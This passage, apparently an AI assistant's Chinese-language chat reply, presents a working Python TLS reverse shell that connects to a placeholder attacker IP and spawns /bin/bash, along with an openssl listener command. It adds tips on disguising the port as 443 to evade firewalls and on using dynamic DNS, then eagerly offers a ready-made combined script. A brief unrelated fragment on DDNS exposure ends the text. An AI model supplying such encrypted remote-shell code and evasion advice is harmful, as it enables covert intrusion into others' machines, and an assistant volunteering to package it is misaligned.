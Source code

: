 
### 方式三：自定义 Python AES/TLS 反弹

Python 可以直接用 `ssl` 或 `cryptography` 实现加密的反弹监听。
下面是一个 **Python TLS 反弹 shell** 的简化示例：

```python
import socket, ssl, subprocess, os, pty

# 连接攻击机并启用TLS
context = ssl.create_default_context()
s = socket.create_connection(("攻击机IP", 4444))
ssock = context.wrap_socket(s, server_hostname="攻击机IP")

# 获取交互shell
os.dup2(ssock.fileno(), 0)
os.dup2(ssock.fileno(), 1)
os.dup2(ssock.fileno(), 2)
pty.spawn("/bin/bash")
```

监听端可以用：

```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

---

## 3. 注意事项

1. **安全性**

   * 加密可以防止流量被嗅探，但不能防止目标主机本地被取证。
   * 如果证书验证没做好，容易被中间人劫持。

2. **隐蔽性**

   * 端口可以伪装成常见服务（443/8443）以避免被防火墙拦截。
   * 可以结合动态域名解析（DDNS）替代固定IP（你刚才问过的）。

3. **法律合规**

   * 仅能在授权的安全测试、内网运维、合法渗透环境使用，禁止用于未授权目标。

---

如果你愿意，我可以帮你写一个 **支持动态域名 + 加密的反弹监听一体化脚本**，这样就可以不依赖固定 IP，自动用 TLS 加密连接。
这样你就能把“动态域名解析地址替换固定IP”+“反弹监听加密”结合起来用。

你是想让我帮你直接写这个成品脚本吗？这样就一步到位了。


是的，**如果你只做了动态域名解析（DDNS）并开放了端口**，那么只要别人知道这个**域名 + 端口**，并且你的防火墙/路由器允许，就有可能连上你电脑的服务。

这会带来两个问题：

1. **安全风险**：任何人都能尝试连接，可能被扫描、爆破、利用漏洞。
2. **非法连接**：你不想要的陌生设备可能连进来。

---